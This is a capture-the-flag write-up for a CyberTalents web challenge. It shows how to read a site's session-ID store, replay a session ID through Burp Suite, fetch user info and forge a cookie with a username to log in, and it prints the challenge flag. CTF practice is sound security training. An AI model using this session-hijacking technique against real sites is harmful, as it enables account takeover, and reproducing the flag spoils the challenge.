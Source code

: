 # CyberTalents
## Web Security

### Challenge Name:
 [*The Restricted Sessions*](https://cybertalents.com/challenges/web/the-restricted-sessions)
 
### Challenge Description
Flag is restricted to logged users only , can you be one of them.

Link: [http://34.77.37.110/restricted-sessions/](http://34.77.37.110/restricted-sessions/)

### Answer
* Open inspect from (ctrl + shift + c) then scroll down there is a script compare session id with phpsessid
```
<script type="text/javascript">

      if(document.cookie !== ''){
        $.post('getcurrentuserinfo.php',{
          'PHPSESSID':document.cookie.match(/PHPSESSID=([^;]+)/)[1]
        },function(data){
          cu = data;
        });
      }
</script>
```
* Open Burb Suite to intercept requests (there isn't cookie on it)
* Send request to repeater, then add some cookie
```
Cookie: PHPSESSID=test
```
Response:
```
Session not found in data/session_store.txt
```
* He store session ids in this file let's see it
* Change 'test' in the previous request to an id from this file
Response:
```
UserInfo Cookie don't have the username , Validation failed 
```
* Cookie must contain username but if we try random one it will not work
* From JavaScript code it get user info by sending post request to 'getcurrentuseringo.php' (notice that it is get now so you must change method)
```
GET /restricted-sessions/getcurrentuseringo.php?PHPSESSID=iuqwhe23eh23kej2hd2u3h2k23 HTTP/1.1
```
```
"name":"john",
"email":"john@example.com",
"session_id":"iuqwhe23eh23kej2hd2u3h2k23"
```
* Now add username to Cookie then send
* You got the Flag!!


### The Flag
 > sessionareawesomebutifitsecure 
